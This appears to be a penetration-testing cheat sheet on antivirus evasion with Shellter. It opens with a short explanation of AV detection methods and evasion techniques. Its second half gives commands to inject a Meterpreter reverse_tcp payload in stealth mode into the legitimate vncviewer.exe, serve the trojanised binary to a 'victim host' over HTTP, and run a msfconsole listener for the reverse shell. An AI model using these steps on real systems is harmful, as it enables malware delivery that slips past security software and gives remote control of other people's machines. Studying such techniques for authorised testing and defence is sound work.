

# AV Evasion With Shellter

## Explanation

### Defense Evasion

Defense Evasion consists of technique that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware -MITRE-

### AV Detection Methods

AV Software will typically utilize signature, heuristic and behaviour based detection.

1. Signature based detection : An AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database.

We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.

2. Heuristic-based detection : Relies on rules or decisions to determine wether a binary is malicious. It also looks for specific patterns within the code or program calls.

3. Behavior based detection : Relies on identifying malware by monitoring it's behavior. (Used for newer strains of malware).

### AV Evasion Technique

#### On-disk Evasion Techniques

- Obfuscation : Obfuscation refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.

- Encoding : Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format and decoded to its original format.

- Packaging : Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature.

- Crypters : Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub.

#### In-Memory Evasion Techniques

- Focuses on a manipulation of memory and does not write files to disk.

- Injects payload into a process by leveraging various Windows APIs.

- Payload is then executed in memory in a separate thread.

## Technics

### Create malicious windows binaries

```
sudo apt-get install shellter -y
sudo dpkg --add-architecture i386
```

```
sudo apt-get install wine32
cd /usr/share/windows-resources/shellter
sudo wine shellter.exe

Choose Operation Mode : A
PE Target : /usr/share/windows-binaries/vncviewer.exe
```

```
Enable Stealth Mode? Y
Use a listed payload or custom? L
```

```
Select payload by index: 1
SET LHOST : <kali-ip>
SET LPORT : 1234
```

```
Press [Enter] to continue...
```

### Transfer payload to victim host

```
cd /usr/share/windows-binaries/
sudo python3 -m http.server 80
```

### Start meterpreter listener

```
msfconsole
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST <kali-ip>
msf6 > set LPORT 1234
msf6 > run
```

### Execute malicious windows binaries

